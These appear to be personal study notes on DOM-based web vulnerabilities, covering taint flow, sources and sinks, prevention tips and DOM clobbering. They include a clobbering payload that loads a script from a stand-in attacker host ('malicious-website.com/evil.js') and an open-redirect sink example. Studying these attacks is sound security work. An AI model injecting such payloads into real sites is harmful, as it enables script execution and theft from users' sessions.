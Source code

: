 The Document Object Model (DOM) is a web browser's hierarchical representation of the elements on the page. Websites can use JavaScript to manipulate the nodes and objects of the DOM, as well as their properties. DOM manipulation in itself is not a problem.

## Taint-flow 

Many DOM-based vulnerabilities can be traced back to problems with the way client-side code manipulates attacker-controllable data.

### What is taint flow?

To either exploit or mitigate these vulnerabilities, it is important to first familiarize yourself with the basics of taint flow between sources and sinks.

#### Sources

A source is a JavaScript property that accepts data that is potentially attacker-controlled. An example of a source is the `location.search` property because it reads input from the query string, which is relatively simple for an attacker to control. Ultimately, any property that can be controlled by the attacker is a potential source. This includes the referring URL (exposed by the `document.referrer` string), the user's cookies (exposed by the `document.cookie` string), and web messages.

## Sinks

the `eval()` function is a sink because it processes the argument that is passed to it as JavaScript. An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.

Fundamentally, DOM-based vulnerabilities arise when a website passes data from a source to a sink, which then handles the data in an unsafe way in the context of the client's session.

    `goto = location.hash.slice(1) if (goto.startsWith('https:')) {   location = goto; }`

## Common Sources

		document.URL 
		document.documentURI 
		document.URLUnencoded 
		document.baseURI
		 location
		  document.cookie 
		  document.referrer 
		  window.name 
		  history.pushState 
		  history.replaceState 
		  localStorage 
		  sessionStorage 
		  IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB) 
		  Database


![[Pasted image 20250820115435.png]]

### How to prevent DOM-based taint-flow vulnerabilities

1. There is no single action you take to eliminate the threat of DOM- based attacks entirely.
2. you can avoid the  allowing data from any untrusted resources.
3. the defences must be implemented within the client-side code
4.  The relevant data can be validated on a whitelist basis, only allowing content that is known to be safe.
5. it involve a combination of JavaScript escaping, HTML encoding, and URL encoding, in the appropriate sequence.

## DOM clobbering

DOM clobbering is an advanced technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behaviour of JavaScript on the website.

useful cases in the xss is not possible, but you can control some HTML on page  where the attributes id or name are whitelisted by the html filter.

## How to exploit DOM-clobbering vulnerabilities

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};` # find this type code

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

`<script> window.onload = function(){ let someObject = window.someObject || {}; let script = document.createElement('script'); script.src = someObject.url; document.body.appendChild(script); }; </script>`

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`

As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the `someObject` reference with this DOM collection. A `name` attribute is used on the last anchor element in order to clobber the `url` property of the `someObject` object, which points to an external script.

my observation is you have to find the global variable there you can execute the DOM clobbering just create a paylaod according to the id para / html para than you proceed.

